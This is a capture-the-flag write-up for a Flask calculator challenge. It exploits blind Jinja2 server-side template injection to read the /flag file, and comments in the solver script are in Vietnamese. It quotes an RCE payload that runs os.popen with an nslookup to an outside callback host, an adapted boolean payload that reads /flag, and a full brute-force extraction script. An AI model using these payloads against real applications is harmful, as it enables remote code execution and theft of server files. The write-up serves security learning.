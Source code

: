 # solution

First, lets take a look at the source code.

```
@app.route('/')
def index():
    return render_template('index.html')

def calculate(data):
    a = data.get('a')
    b = data.get('b')

    try:
        random_sleep = random.uniform(0.1, 0.3)
        time.sleep(random_sleep)

        template_str = """
        {{ """ + a + """ + """ + b + """ }}
        """

        template = Template(template_str)
        result = template.render()

        return {'result': result}

    except Exception as e:
        return {'result': 'Error'}

def execute_with_timeout(data, timeout=0.5):
    with concurrent.futures.ThreadPoolExecutor() as executor:
        future = executor.submit(calculate, data)
        try:
            result = future.result(timeout=timeout)
            return result
        except concurrent.futures.TimeoutError:
            return {'result': 'Error: Timeout'}

@app.route('/cal', methods=['POST'])
def cal():
    a = request.form.get('a')
    b = request.form.get('b')

    try:
        data = {'a': a, 'b': b}
        response = execute_with_timeout(data)
        result = response.get('result')

        pattern = r'[0-1]'

        if re.fullmatch(pattern, result.strip()):
            return render_template('result.html', result=result)
        else:
            return render_template('result.html', result="Only 0, 1")
    except Exception as e:
        return render_template('index.html')
```

Hmm, first of all, i try to bypass pattern filter and realize that i cant do that in anyway. So how we can find the flag if the result just only 0 or 1. As some kind of blind SqlI but in this challenge, i think is blind SSTI jinja2. Then i go to hacktrick (my favorite site for payloads and information), then i find this site.
https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('nslookup oastify.com').read()}}
```

That one above is the original payload. But we need to modify to use it. Here is the payload after changing something.

```
a = (1 if (self.__init__.__globals__.__builtins__.open('/flag').read() | length) == 0 else 0)
b = 1
```

I will explain for you. Why i know **/flag** dir. You need to read the source code carefully.

```
FROM python:3.9-slim

WORKDIR /app

COPY . /app

RUN echo "pokactf2024{**flag**}" > /flag

RUN pip install Flask requests

RUN rm -f /usr/bin/login /bin/login

CMD ["python", "app.py"]
```

The flag is sent to /flag dir. Then we open('/flag').read() we can read that content. In jinja2 we use **length** to output the length of string. Overview of that payload is if the length of flag equal to n then **a** output is 1 then 1+1=2 (equivalent to Only 0,1 ) else the output is 0 and 0+1=1.

Run that payload with burp suite. Then i find that the length of flag is 78 (cause i see the notification of page is Only 0,1).

Its seem our payload woking so good (i spend 3 weeks doing this challenge, such a noob). My automatic script for this chal (you maybe can use thread to speed up).

```
import requests
import string
import urllib.parse

# URL của trang web
base_url = "http://host3.dreamhack.games:13652"
cal_url = f"{base_url}/cal"

# Thử nghiệm các ký tự có thể có trong flag (a-zA-Z0-9{})
charset = string.ascii_lowercase + string.ascii_uppercase + string.digits + '{}'

# Proxy cấu hình (dùng Burp Suite)
proxy = {
    "http": "http://127.0.0.1:8080",  # Địa chỉ và cổng của Burp Suite proxy
    "https": "http://127.0.0.1:8080"
}

# Header HTTP
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": base_url,
    "Referer": base_url + "/",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1",
    "DNT": "1"
}

# Hàm để brute-force payload với từng ký tự
def brute_force_flag():
    flag = ""

    for i in range(78):  # 78 là độ dài của flag
        for char in charset:
            # Tạo payload kiểm tra ký tự tại vị trí i
            a_value = f"(1 if self.__init__.__globals__.__builtins__.open('/flag').read()[{i}] == '{char}' else 0)"



            # Tạo payload
            payload = f"a={a_value}&b=1"

            # Gửi yêu cầu POST qua proxy
            response = requests.post(
                cal_url,
                data=payload,
                headers=headers,
                proxies=proxy,
                verify=False  # Không xác thực SSL (nếu dùng HTTPS qua Burp Suite)
            )

            # Kiểm tra kết quả trả về
            if response.status_code == 200 and "Only" in response.text:
                print(f"Found character {char} for position {i + 1}")
                flag += char
                break

    print(f"Flag: {flag}")

# Main logic để thực hiện
if __name__ == "__main__":
    brute_force_flag()
```

```
Flag: pokactf2024{1438f7e5e5e706f835d5bb689836610fb5dec17163aab6f20a906cb87efcb417}
```

Good luck.
